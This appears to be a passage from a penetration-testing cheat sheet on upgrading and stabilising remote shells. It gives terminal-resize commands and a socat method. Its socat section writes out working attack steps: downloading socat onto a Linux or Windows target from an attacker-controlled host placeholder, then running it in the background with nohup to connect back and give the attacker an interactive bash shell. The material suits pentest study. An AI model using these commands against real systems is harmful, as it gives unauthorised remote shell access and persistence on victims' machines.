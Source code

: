 ```bash

# === OPTIONAL ===

echo "stty rows $(tput lines) columns $(tput cols)"
stty rows <ABOVE> columns <ABOVE>

# === SHELL DIES ===

reset  # to re-enable disabled echo
```

#### 📏 Resize Terminal

```bash
# RUN THIS OUTSIDE of remote shell
# THEN run the output inside the remote shell
stty size | awk '{printf "stty rows %s cols %s\n", $1, $2}'
# --- OR ---
stty -a | grep -o "rows [0-9]*; columns [0-9]*" | awk '{print "stty", $2, $4}'
```

### 🔧 Socat Method

- https://github.com/andrew-d/static-binaries/tree/master/binaries
- https://github.com/ernw/static-toolbox/

```bash
#====================================================================
# STEP 1: ATTACKER - One-Time Setup (Get & Serve socat)
#====================================================================

cd /tmp
# Download static Linux binary
wget -v https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
# Get your IP and serve the directory on port 80
ip a ; sudo python3 -m http.server 80

#====================================================================
# A) STANDARD (Unencrypted) SHELLS
#====================================================================

wget http://<ATTACKER_IP>/socat

#--------------------------------------------------------------------
# LINUX TARGET (Fully Stable TTY Shell)
#--------------------------------------------------------------------

# ATTACKER (Listen):
socat file:`tty`,raw,echo=0 tcp-listen:<PORT>

# LINUX TARGET (Connect Back):
wget http://<KALI_IP>:80/socat -o /tmp/socat
chmod +x /tmp/socat
nohup /tmp/socat tcp-connect:<KALI_IP>:<PORT> exec:'bash -li',pty,stderr,setsid,sigint,sane 2>&1 >/dev/null &

#--------------------------------------------------------------------
# WINDOWS TARGET (Simple Shell)
#--------------------------------------------------------------------

# ATTACKER (Listen):
socat tcp-listen:<PORT> -

# WINDOWS TARGET (Connect Back):
Invoke-WebRequest -uri http://<KALI_IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```